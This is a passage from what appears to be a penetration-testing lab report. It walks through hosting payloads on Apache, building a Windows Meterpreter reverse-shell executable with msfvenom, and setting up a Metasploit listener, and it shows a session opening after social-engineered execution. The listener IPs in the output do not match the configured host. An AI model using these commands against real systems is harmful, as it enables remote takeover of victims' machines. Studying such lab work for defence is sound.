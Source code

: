 For hosting malicious payloads, we initiated the Apache web server using:

```
$ service apache2 status
$ service apache2 start
```

The Apache server was successfully started, as confirmed by the status command showing "active (running)" with a Process ID of 1851.

### 4.3 Payload Creation

We created a custom payload using MSFvenom with the following parameters:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f exe -o /root/Desktop/hello.exe
```

The command successfully generated a payload of 354 bytes, with a final executable size of 73802 bytes. This payload was designed to establish a reverse TCP connection from the target system to the attack machine when executed.

### 4.4 Metasploit Framework Initialization

The Metasploit Framework was initiated using:

```
$ msfconsole
```

After initialization, the following command sequence was executed to configure the exploitation environment:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 172.17.0.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit
```

This configuration established a listener on the attack machine to receive the connection from the target system when the payload is executed.

### 4.5 Exploitation Results

When the payload was executed on the target system (through social engineering or other means), a Meterpreter session was successfully established. The connection details were displayed as:

```
[*] Started reverse TCP handler on 192.168.136.128:4444
[*] Sending stage (175174 bytes) to 192.168.136.1
[*] Meterpreter session 1 opened (192.168.136.128:4444 -> 192.168.136.1:55202)
```

### 4.6 Post-Exploitation Activities
